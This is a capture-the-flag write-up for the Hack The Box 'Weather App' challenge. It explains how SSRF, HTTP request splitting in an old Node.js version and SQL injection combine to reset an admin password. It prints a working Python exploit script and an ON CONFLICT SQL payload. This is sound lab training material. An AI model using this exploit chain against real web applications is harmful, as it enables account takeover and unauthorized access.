










# ***writeup : weather app hack the box***
when running the app we are are presented with a screen displaying weather statistics for our current location.




</br>
Let's analyze the provided source code to identify any potential vulnerabilities.

</br>



We were provided with both the Dockerfile and the source code. We will begin by reviewing the source code to understand the overall structure and logic of the application, which appears to be built using Node.js. By examining the routes directory, we can determine the conditions required to obtain the flag.



- Upon gaining admin access, it is possible to access the content of the '/app/flag' directory. To achieve this, our next step is to investigate how to acquire admin user status. The information related to the admin user is located in the "databases.js" file. The admin's credentials are stored in the database, and the password is randomly generated. Since cracking through brute force is not an option, we will focus on obtaining the password through injection techniques.

- after examination of the registration process, we discovered that the user name and password parameters are not properly sanitized before being sent to the database. This suggests that it may be possible to manipulate the information stored in the database through the registration process.



at the same time i examinated the process of isadmin function



In order to gain admin access, we must determine the admin user's password. The strategy to achieve this is by exploiting a vulnerability in the registration process through injection techniques, which can potentially allow us to obtain or modify the admin user's password. To understand the requirements for accessing the registration interface, we will examine the routes/index.js file.



- I have determined that the registration interface can only be accessed from a local network. To exploit this, we will investigate which areas within the local network are susceptible to Server-side Request Forgery (SSRF) attacks.

- digging more in the source code I found this in "challenge\helpers\WeatherHelper.js"



I revealed that the URL is controllable. Further examination showed that the submission of the URL must be done in the "/api/weather" endpoint.



the objective of this challenge is clear: B
- exploit **SSRF** in at the /api/weather endpoint to make request  to /register
- he /register endpoint accepts a username and password as parameters. By injecting **a SQL injection** payload into these parameters, i will try to change the admin user's password.

Unfortunately, I revealed that the /api/weather endpoint does not support POST requests, so it cannot be used to send a request to 127.0.0.1/register

I was stuck at this moment and didn't know what to do , lately i found out that i haven't read the source code completely. I forgot an important thing the **version** of Node being used



well after a lot of research i found out that this node version is vulnerable to [ssrf via response splitting](https://www.rfk.id.au/blog/entry/security-bugs-ssrf-via-request-splitting/)
</br>well then the exploit is now clear :
- the **endpoint** param will carry our payload in /api/weather
- the payload will conatin **sql injection**

but before that let's analyse the injection method 

```
INSERT INTO users (username, password) VALUES ('${user}', '${pass}')
```
we need to find a payload with sql to update the table users and change the password of the admin 
</br> well ON CONFLICT clause is the solution and our payload should look like this 

``` 
INSERT INTO users (username, password) VALUES ('admin', 'admin') ON CONFLICT(username) DO UPDATE SET password = 'admin';--')
```

so let's now go to the final exploit i built the docker file and launched the app locally
keep in mind that SSRF via response splitting use unicode charachters and this is what we will need in our exploit 

 ```
    "\u0120"; space 
    "\u010D"; \r
    "\u010A"; \n
    "%27"; singleInvertedConverted
    "%22"; double inverted comma
```
and this our final exploit :
```
import requests

url = "http://144.126.228.187:32430"

username="admin"

password="123') ON CONFLICT(username) DO UPDATE SET password = 'admin';--"
User = username.replace(" ","\u0120").replace("'", "%27").replace('"', "%22")
Pass = password.replace(" ","\u0120").replace("'", "%27").replace('"', "%22")
contentLength = len(User) + len(Pass) + 19
endpoint = '127.0.0.1/\u0120HTTP/1.1\u010D\u010AHost:\u0120127.0.0.1\u010D\u010A\u010D\u010APOST\u0120/register\u0120HTTP/1.1\u010D\u010AHost:\u0120127.0.0.1\u010D\u010AContent-Type:\u0120application/x-www-form-urlencoded\u010D\u010AContent-Length:\u0120' + str (contentLength) + '\u010D\u010A\u010D\u010Ausername='+User + '&password='+ Pass + '\u010D\u010A\u010D\u010AGET\u0120/?done='

city='hello'

country='hello'

json={'endpoint':endpoint,'city':city,'country':country}

res=requests.post(url=url+'/api/weather',json=json)
```

endpoint param would look like this : 
```
127.0.0.1 HTTP/1.1
Host: 127.0.0.1

POST /register HTTP/1.1
Host: 127.0.0.1
Content-Type: application/x-www-form-urlencoded  
Content-Length: len(User) + len(Pass) + 19

username=parsedUsername & password=parsedPassword 

GET /?done=
```

executing this code and trying to connect in the login as admin:admin adn BINGOOOOO!! 

